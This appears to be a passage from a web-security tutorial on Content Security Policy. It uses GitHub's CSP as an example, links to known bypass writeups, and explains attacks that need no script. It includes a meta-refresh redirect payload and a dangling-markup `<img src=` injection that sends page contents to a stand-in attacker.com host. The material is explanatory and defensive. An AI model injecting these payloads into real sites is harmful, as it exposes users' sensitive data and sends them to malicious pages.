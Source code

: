 ```

manifest-src 'self';

media-src github.com user-images.githubusercontent.com/;

script-src github.githubassets.com;

style-src 'unsafe-inline' github.githubassets.com;

worker-src github.com/socket-worker-3f088aa2.js gist.github.com/socket-worker-3f088aa2.js
```

To check if there are obvious vulnerabilities in the CSP rules, you can go to [CSP Evaluator](https://csp-evaluator.withgoogle.com/). GitHub's CSP is set very strictly, and almost every type of resource is set.

Here you can see that the value of script-src is only `github.githubassets.com`. Because there is no `unsafe-inline`, inline script cannot be executed, and if you want to import script, you can only import it from the source of `github.githubassets.com`, which almost blocks the way to execute script.

However, the CSP of many websites is not set so strictly, so there is a higher chance of being bypassed, such as [A Wormable XSS on HackMD!](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html) directly using AngularJS + CSTI on cloudflare CDN to bypass it; [HackMD Stored XSS & Bypass CSP with Google Tag Manager](https://github.com/k1tten/writeups/blob/master/bugbounty_writeup/HackMD_XSS_%26_Bypass_CSP.md) uses Google Tag Manager to bypass it.

In addition, in some situations, even if it seems to be blocked, it can still be bypassed through existing scripts. For more information, please refer to this classic presentation: [Breaking XSS mitigations via Script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets).

What if the script cannot be executed? What else can be done?

Even if only HTML is inserted, there are still things that can be done.

For example, you can use the HTML meta tag to cause a redirect to a malicious website, like this: `<meta http-equiv="refresh" content="0;https://example.com">`.

Or insert `<img src="https://attacker.com?q=` (note that only the opening double quotes are used here for src), so that the entire HTML becomes:

``` html
<img src="https://attacker.com?q=
<div>user info</div>
<div>sensitive data</div>
<div class="test"></div>
```

By not closing the `"` of src, you can get the HTML content until the next `"` and pass it as part of the query string to the server, and there may be some sensitive data in between. Therefore, the `img-src` CSP rule is also useful, which can prevent this type of attack.

Or you can combine [DOM Clobbering](https://blog.huli.tw/2021/01/23/dom-clobbering/) to see if there are any places to attack.

Therefore, even if scripts cannot be executed, there are still other attack methods that can be used.
